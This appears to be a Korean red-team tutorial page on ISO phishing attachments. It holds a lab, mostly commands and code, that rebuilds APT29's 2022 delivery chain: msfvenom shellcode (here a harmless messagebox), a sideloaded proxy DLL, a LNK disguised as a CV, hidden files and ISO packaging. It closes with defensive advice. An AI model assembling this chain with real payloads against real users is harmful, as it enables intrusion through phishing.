

# ISO

악성 오피스 문서의 시대가 저물며 공격자들은 피싱에 사용될 수 있는 첨부 파일 종류들을 찾기 시작했다. ISO 파일 포멧은 2022년도 기준으로 실제 공격자들이 공격에 자주 쓰는 파일 종류다. ISO (Optical Disk Image) 파일 포멧은 이미지 파일로도 불리며, CD/DVD/블루레이 등의 옵티컬 디스크의 특징을 갖고 있는 파일 포멧 중 하나다. &#x20;

공격자들이 ISO를 피싱 공격을 할 때 첨부 파일로 자주 사용하는 이유는 다음과 같다:&#x20;

#### 1. Mark of the Web (MOTW) 가 없다&#x20;

인터넷에서 다운 받은 `.exe` `.dll` 등의 파일들은 윈도우의 NTFS 파일 시스템의 특징 중 하나인 Alternate Data Stream (ADS) 에 "인터넷에서 다운 받은 파일" 이라는 낙인(?)이 찍힌다. 이것을 Mark of the Web 이라고 부른다. MotW 이 찍힌 파일을 실행하려고 하면 윈도우는 유저에게 경고창을 띄운다. 이는 인터넷에서 다운 받은 위험한 파일을 유저가 실행하지 않도록 하는데 큰 도움을 준다.&#x20;

 (1).png>)

하지만 이런 MotW 낙인이 붙지 않는 파일 확장자들도 있다. 7Z, ZIP, ISO, IMG, CAB 등의 파일 확장자들이 대표적이다.&#x20;

#### 2. ISO는 압축 파일 형태다&#x20;

ISO 파일들은 컴팩트 디스크 이미지 파일이고, ISO 파일 포멧안에는 여러개의 파일을 포함시킬 수 있다. 사실상 공격자의 입장에서는 `.zip` 혹은 `.7z` 와 같은 압축 파일을 보내는 것과 비슷하다. 공격자들은 피싱 공격을 할 때 ISO 파일 안에 다른 페이로드들을 같이 숨겨 놓은 형태로 파일을 전송한다. 이때 숨김 파일 (TODO: 페이지 생성 + 링크) 기법을 이용해 ISO 안에 다른 파일들이 보이지 않도록 하는 방법도 쓴다.&#x20;

#### 3. 실행이 간편하다&#x20;

피해자 유저가 ISO 파일을 더블클릭 하면 파일은 자동으로 파일 시스템에 마운트가 되며, 그 안의 파일들은 모두 압축이 풀린 형태로 마운트 된 드라이브에 쓰여진다.&#x20;

### 실습&#x20;

실습에서는 APT29 그룹이 2022년 7월 [실제 공격](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)에 사용했던 페이로드를 똑같이 재현해본다. APT29는 러시아의 해외정보국 (SVR) 이라고 추측되는 그룹이다.&#x20;

7월달 공격에서 APT29는 ISO 파일 안에 마이크로소프트사의 바이너리인 `OneDriveStandAloneUpdater.exe` 를 넣은 뒤, `version.dll` DLL 파일을 사이드로딩 했다. 사이드로딩을 실행하는 데에는 자기소개서/레지메처럼 생긴 LNK 파일을 사용했다. ISO파일 안의 페이로드들은 다음과 같다:&#x20;

1. OneDriveStandAloneUpdater.exe - 마이크로소프트사의 공식 바이너리&#x20;
2. version.dll - 공격자의 프록시 DLL&#x20;
3. vresion.dll - 진짜 version.dll 파일. APT29 그룹은 `vresion` 으로 이름을 바꿨다.&#x20;
4. OneDrive.Update - 공격자의 쉘코드. 프록시 DLL 안에 넣어도 되는데 APT29는 굳이 파일 시스템에 저장했다.&#x20;
5. `Roshan-Bandara_CV_Dialog.lnk` - OneDriveStandAloneUpdater.exe 파일을 실행시킬 LNK 파일. LNK 파일이 악성코드에 사용되 방법은 [LNK 첨부파일 페이지](lnk.md)를 참고한다.&#x20;

페이로드들은 다음과 같이 생성한다.&#x20;

1. 쉘코드를 생성한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="Stage0 shellcode" title="choi redteam playbook" -f raw -o OneDrive.Update
```

2\. SharpDLLProxy 를 통해 dllsideloading 을 할 프록시 DLL을 만든다. SharpDllProxy 를 실행 한 뒤 `version.dll` 은 `vresion.dll` 로 이름을 바꾼 뒤, DLL 사이드로딩을 할 디렉토리로 옮긴다.&#x20;

```
# <SharpDLLProxy directory...> 
cp c:\windows\system32\version.dll . 
./SharpDllProxy.exe --dll version.dll --payload OneDrive.Update

cp ./version.dll c:\opt\dllsideloading\vresion.dll 
```

3\. SharpDLLProxy 가 만든 `.c` 파일을 수정한 뒤, 컴파일 한다. 맨 위의 `pragma comment` 에서 DLL 이름을 `tmpXXXX` 에서 `vresion` 으로 수정해주면 끝이다.&#x20;

 (1) (2) (1).png>)

4\. version.dll 로 컴파일 한다.&#x20;

5\. LNK 페이로드를 만든다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\opt\dllsideloading\Roshan-Bandara_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\cmd.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
# If you have office16, use the icon below 
#$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start OneDriveStandaloneUpdater.exe"
$link.save()
```

6\. 이후 `OneDriveStandaloneUpdater.exe`, `version.dll`, `vresion.dll`, `OneDrive.Update` , `Roshan-Bandara_CV_Dialog.lnk` 를 모두 ISO를 만들 디렉토리로 옮긴다.&#x20;

7\. `attrib.exe +h` 를 이용해 lnk 파일을 제외한 모든 파일들은 숨김 처리를 해준다.&#x20;

```
attrib.exe +h .\OneDrive.Update
attrib.exe +h .\OneDriveStandaloneUpdater.exe
attrib.exe +h .\version.dll
attrib.exe +h .\vresion.dll
```

8\. 마지막으로 다음의 파워쉘 스크립트를 이용해 ISO를 만든다.

<details>

<summary>New-ISOFile.ps1</summary>

```
# https://github.com/SQLDBAWithABeard/Functions/blob/master/New-IsoFile.ps1
function New-IsoFile 
{  
  <# .Synopsis Creates a new .iso file .Description The New-IsoFile cmdlet creates a new .iso file containing content from chosen folders .Example New-IsoFile "c:\tools","c:Downloads\utils" This command creates a .iso file in $env:temp folder (default location) that contains c:\tools and c:\downloads\utils folders. The folders themselves are included at the root of the .iso image. .Example New-IsoFile -FromClipboard -Verbose Before running this command, select and copy (Ctrl-C) files/folders in Explorer first. .Example dir c:\WinPE | New-IsoFile -Path c:\temp\WinPE.iso -BootFile "${env:ProgramFiles(x86)}\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg\efisys.bin" -Media DVDPLUSR -Title "WinPE" This command creates a bootable .iso file containing the content from c:\WinPE folder, but the folder itself isn't included. Boot file etfsboot.com can be found in Windows ADK. Refer to IMAPI_MEDIA_PHYSICAL_TYPE enumeration for possible media types: http://msdn.microsoft.com/en-us/library/windows/desktop/aa366217(v=vs.85).aspx .Notes NAME: New-IsoFile AUTHOR: Chris Wu LASTEDIT: 03/23/2016 14:46:50 #> 
   
  [CmdletBinding(DefaultParameterSetName='Source')]Param( 
    [parameter(Position=1,Mandatory=$true,ValueFromPipeline=$true, ParameterSetName='Source')]$Source,  
    [parameter(Position=2)][string]$Path = "$env:temp\$((Get-Date).ToString('yyyyMMdd-HHmmss.ffff')).iso",  
    [ValidateScript({Test-Path -LiteralPath $_ -PathType Leaf})][string]$BootFile = $null, 
    [ValidateSet('CDR','CDRW','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','BDR','BDRE')][string] $Media = 'DVDPLUSRW_DUALLAYER', 
    [string]$Title = (Get-Date).ToString("yyyyMMdd-HHmmss.ffff"),  
    [switch]$Force, 
    [parameter(ParameterSetName='Clipboard')][switch]$FromClipboard 
  ) 
  
  Begin {  
    ($cp = new-object System.CodeDom.Compiler.CompilerParameters).CompilerOptions = '/unsafe' 
    if (!('ISOFile' -as [type])) {  
      Add-Type -CompilerParameters $cp -TypeDefinition @'
public class ISOFile  
{ 
  public unsafe static void Create(string Path, object Stream, int BlockSize, int TotalBlocks)  
  {  
    int bytes = 0;  
    byte[] buf = new byte[BlockSize];  
    var ptr = (System.IntPtr)(&bytes);  
    var o = System.IO.File.OpenWrite(Path);  
    var i = Stream as System.Runtime.InteropServices.ComTypes.IStream;  
   
    if (o != null) { 
      while (TotalBlocks-- > 0) {  
        i.Read(buf, BlockSize, ptr); o.Write(buf, 0, bytes);  
      }  
      o.Flush(); o.Close();  
    } 
  } 
}  
'@  
    } 
   
    if ($BootFile) { 
      if('BDR','BDRE' -contains $Media) { Write-Warning "Bootable image doesn't seem to work with media type $Media" } 
      ($Stream = New-Object -ComObject ADODB.Stream -Property @{Type=1}).Open()  # adFileTypeBinary 
      $Stream.LoadFromFile((Get-Item -LiteralPath $BootFile).Fullname) 
      ($Boot = New-Object -ComObject IMAPI2FS.BootOptions).AssignBootImage($Stream) 
    } 
  
    $MediaType = @('UNKNOWN','CDROM','CDR','CDRW','DVDROM','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','HDDVDROM','HDDVDR','HDDVDRAM','BDROM','BDR','BDRE') 
  
    Write-Verbose -Message "Selected media type is $Media with value $($MediaType.IndexOf($Media))"
    ($Image = New-Object -com IMAPI2FS.MsftFileSystemImage -Property @{VolumeName=$Title}).ChooseImageDefaultsForMediaType($MediaType.IndexOf($Media)) 
   
    if (!($Target = New-Item -Path $Path -ItemType File -Force:$Force -ErrorAction SilentlyContinue)) { Write-Error -Message "Cannot create file $Path. Use -Force parameter to overwrite if the target file already exists."; break } 
  }  
  
  Process { 
    if($FromClipboard) { 
      if($PSVersionTable.PSVersion.Major -lt 5) { Write-Error -Message 'The -FromClipboard parameter is only supported on PowerShell v5 or higher'; break } 
      $Source = Get-Clipboard -Format FileDropList 
    } 
  
    foreach($item in $Source) { 
      if($item -isnot [System.IO.FileInfo] -and $item -isnot [System.IO.DirectoryInfo]) { 
        $item = Get-Item -LiteralPath $item
      } 
  
      if($item) { 
        Write-Verbose -Message "Adding item to the target image: $($item.FullName)"
        try { $Image.Root.AddTree($item.FullName, $true) } catch { Write-Error -Message ($_.Exception.Message.Trim() + ' Try a different media type.') } 
      } 
    } 
  } 
  
  End {  
    if ($Boot) { $Image.BootImageOptions=$Boot }  
    $Result = $Image.CreateResultImage()  
    [ISOFile]::Create($Target.FullName,$Result.ImageStream,$Result.BlockSize,$Result.TotalBlocks) 
    Write-Verbose -Message "Target image ($($Target.FullName)) has been created"
    $Target
  } 
} 
```

</details>

```
# Move to the payload directory and create the ISO file 
. ./New-ISOFile.ps1 
cd c:\opt\dllsideloading 
get-childitem . -Force | New-IsoFile -Path C:\opt\Roshan_CV.iso
```

완성된 페이로드는 다음과 같다.&#x20;




ISO를 더블클릭하면 드라이브에 마운트가 된다. 안에는 LNK 파일 밖에 보이지 않지만, 실제로는 숨겨진 파일들이 존재하고, 이 파일들이 DLL 사이드로딩을 일으켜 페이로드가 실행되게 된다.&#x20;


### 대응 방안&#x20;

ISO 파일은 수상하다. 왠만한 웹앱 기반의 이메일이나 이메일 솔루션들은 파일을 다운 받기 전 파일의 확장자를 보여준다. 분명 본인이 디스크 파일을 다운 받는 것이 아닌데 다른 사람이 뜬금없이 ISO 파일을 보내왔다면, 더 주의를 기울이도록 하자.&#x20;

예를 들어 APT29 같은 경우 외국의 자기소개서/레지메(Resume) 같은 CV 파일을 ISO 파일에 담아서 보냈다. 회사 지원시 레쥬메를 낼 때 PDF 말고 다른 확장자를 썼던 기억이 있던가? 이처럼 ISO 확장자가 굳이 필요한 상황이 아닌데 상대방이 ISO 파일을 보내왔다면 조심해야 한. &#x20;

그외에는 윈도우 익스플로러의 View -> Options -> View 에서 다음과 같은 옵션들을 활성화시킨다.&#x20;

* Show hidden files, folders, and drives (숨겨진 파일, 폴더, 드라이브 보이기) **활성화**&#x20;
* Hide extensions from known file types (잘 알려진 파일 확장자 숨기기) **비활성화**


### 레퍼런스&#x20;






